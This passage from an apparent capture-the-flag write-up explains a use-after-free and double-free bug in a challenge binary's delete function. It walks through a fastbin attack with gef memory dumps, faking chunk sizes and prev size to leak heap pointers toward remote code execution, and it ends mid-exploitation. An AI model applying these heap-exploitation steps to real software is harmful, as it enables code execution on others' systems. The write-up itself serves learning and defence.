 

The `view` function is straightforward, as it uses `puts(ptrs[n_ptr])`. Pseudocode of `delete` function:
```C
...
scanf("%u",&idx); getchar();
if(idx > 19) abort();
free(ptrs[idx]);
...
```
The vulnerability here is UAF and double free, since chunk's content is not zero-ed before freeing, and pointer array is not zero-ed. Note that we can free as many chunk as we want. We're going to use [fastbin attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/fastbin_dup_into_stack.c) with a bit of luck to gain RCE.



### Exploitation

First we need to leak heap and libc pointers. We allocate exactly 7 chunks and we're going to fiddle with 5 of them, mainly 2nd-6th . We fake a 0x20 size chunk in fastbin, we need this for 2 steps below:
```
gef> tel 0x0000563b4f62f000 
0x0000563b4f62f000|+0x0000: 0x0000000000000000
0x0000563b4f62f008|+0x0008: 0x0000000000000031 -> first chunk
0x0000563b4f62f010|+0x0010: "aaaaaaaa"
0x0000563b4f62f018|+0x0018: 0x0000000000000000
0x0000563b4f62f020|+0x0020: 0x0000000000000000
0x0000563b4f62f028|+0x0028: 0x0000000000000031 -> fake size 
0x0000563b4f62f030|+0x0030: 0x0000000000000000
0x0000563b4f62f038|+0x0038: 0x0000000000020fd1
```



Then we put fake prev size in 4th chunk (so that 5th chunk has prev size property) for later use:
```
gef> tel 0x0000563b4f62f090     
0x0000563b4f62f090|+0x0000: 0x0000000000000000
0x0000563b4f62f098|+0x0008: 0x0000000000000031 
0x0000563b4f62f0a0|+0x0010: "dddddddd" -> 4th chunk
0x0000563b4f62f0a8|+0x0018: 0x0000000000000000
0x0000563b4f62f0b0|+0x0020: 0x0000000000000000
0x0000563b4f62f0b8|+0x0028: 0x0000000000000000
0x0000563b4f62f0c0|+0x0030: 0x0000000000000090 -> fake prev size
0x0000563b4f62f0c8|+0x0038: 0x0000000000000051
0x0000563b4f62f0d0|+0x0040: "ffffffff" -> 5th chunk
```



Time to launch our attack. We double free two 0x20 chunks we've allocated, and leak heap pointer from there. A fastbin attack to change chunk size to a smallbin is done after (we need the heap leak for this), and this is where the fake size and prev size comes in.
```
gef> tel 0x0000563b4f62f000 50
0x0000563b4f62f000|+0x0000: 0x0000000000000000
0x0000563b4f62f008|+0x0008: 0x0000000000000031
0x0000563b4f62f010|+0x0010: "aaaaaaaa" -> 1st chunk
0x0000563b4f62f018|+0x0018: 0x0000000000000000
0x0000563b4f62f020|+0x0020: 0x0000000000000000
0x0000563b4f62f028|+0x0028: 0x0000000000000031 -> fake size
0x0000563b4f62f030|+0x0030: 0x0000000000000000  <-$rax, $rdx
0x0000563b4f62f038|+0x0038: 0x0000000000000091 -> overwritten size
0x0000563b4f62f040|+0x0040: 0x0062626262626262 -> 2nd chunk
...
0x0000563b4f62f0c0|+0x00c0: 0x0000000000000090 -> fake prev size
```